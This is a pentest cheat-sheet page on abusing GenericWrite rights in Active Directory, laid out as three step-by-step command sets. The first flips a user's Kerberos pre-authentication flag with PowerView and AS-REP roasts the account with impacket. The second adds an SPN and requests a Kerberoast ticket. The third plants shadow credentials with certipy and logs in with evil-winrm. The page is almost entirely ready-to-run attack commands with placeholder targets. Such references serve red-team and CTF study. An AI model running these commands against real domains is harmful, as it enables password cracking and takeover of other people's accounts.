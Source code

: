 ```yaml
---
title: "GenericWrite"
date: 2024-7-13
tags: ["GenericWrite", "active driectory", "ad", "Windows"]
---
```


### Abuse #1 : Add UF_DONT_REQUIRE_PREAUTH bit to target user

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import PowerView.ps1 

<div>

```console
. .\PowerView.ps1
```

</div>

#### 2. Check target user

<div>

```console
Get-DomainUser <TARGET_USER> | ConvertFrom-UACValue
```

</div>

#### 3. Add UF_DONT_REQUIRE_PREAUTH bit

<div>

```console
Set-DomainObject -Identity <TARGET_USER> -XOR @{useraccountcontrol=4194304} -Verbose
```

</div>

#### 4. AS-REP Roasting

<div>

```console
# In local linux machine
impacket-GetNPUsers '<DOMAIN>/<USER>' -no-pass -dc-ip <DC>
```

</div>

{{< /tabcontent >}}

<br>

---

### Abuse #2 : Kerberoasting by adding spn

{{< tab set2 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Import PowerView.ps1

<div>

```console
. .\PowerView.ps1
```

</div>

#### 2. Create cred object (runas) \[optional\]

<div>

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString <PASSWORD> -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

</div>

#### 3. Add SPN

<div>

```console
# Add spn (e.g. MSSQL)
setspn -a MSSQLSvc/<TARGET_DOMAIN>:1433 <DOMAIN>\<TARGET_USER>
```

```console
# Check
Get-DomainUser <TARGET_USER> | Select serviceprincipalname
```

</div>

#### 4. Get SPN

<div>

```console
Get-DomainSPNTicket -SPN "MSSQLSvc/<DOMAIN>:1433" -Credential $Cred
```

</div>

{{< /tabcontent >}}

<br>

---

### Abuse #3: Add shadow credentials

{{< tab set3 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set3 tab1 >}}

<div>

```console
# Request a ticket
kinit <USER>
```

```console
# Import ticket
export KRB5CCNAME=/tmp/krb5cc_1000
```

```console
# Pre-check (Optional)
certipy-ad find -username <USER>@<DOMAIN> -k -target <TARGET_DOMAIN>
```

```console
# Add shadow credentials
certipy-ad shadow auto -username <USER>@<DOMAIN> -account <TARGET_USER> -k -target <TARGET_DOMAIN>
```

```console
# Remote with kerberos
KRB5CCNAME=./<TARGET_USER>.ccache evil-winrm -i <TARGET_DOMAIN> -r <DOMAIN>
```

</div>

{{< /tabcontent >}}

<br>